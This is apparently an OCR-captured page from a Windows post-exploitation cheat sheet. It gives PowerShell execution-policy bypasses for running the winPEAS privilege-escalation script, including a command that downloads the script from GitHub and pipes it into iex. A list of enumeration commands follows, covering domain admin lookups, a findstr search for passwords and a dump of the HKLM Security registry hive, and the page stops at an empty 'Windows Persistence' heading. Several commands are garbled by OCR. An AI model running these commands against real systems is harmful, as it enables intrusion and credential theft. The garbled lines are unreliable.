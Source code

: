 ```powershell
Set-ExecutionPolicy -Scope Process Bypass
.\winpeas.ps1
```

```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```

```batch
powershell -ep bypass -file winpeas.ps1
```

```powershell
iwr -useb https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEAS.ps1 | iex
```

```batch
type .\winpeas.ps1 | iex
```

```powershell
Get-Content .\winpeas.ps1 -Raw | iex  
```


## Windows System Enumeration

```powershell
ver
time
net session
psloglist "Security" -i 528 -s | find /i "Logon Type: 10"
net statistics
nltest /dclist
net group /domain "Domain Admins"
date
tzutil /g
tracert 8.8.8.8
hostname
ipconfig
arp -a
route print
sc query state=all
tasklist /svc
tasklist /m
tasklist /S ip /v
taskkill /PID pid /F
systeminfo /S ip /U domain\user /P Pwd
dir /a /s /b c:\'.pdf'
dir /a /b c:\windows\kb'
findstr /si password' .txt I •.xmll •.xls tree /F /A c:\ tree.txt
reg save HKLM\Security security.hive echo %USERNAME%
```

## Windows Persistence
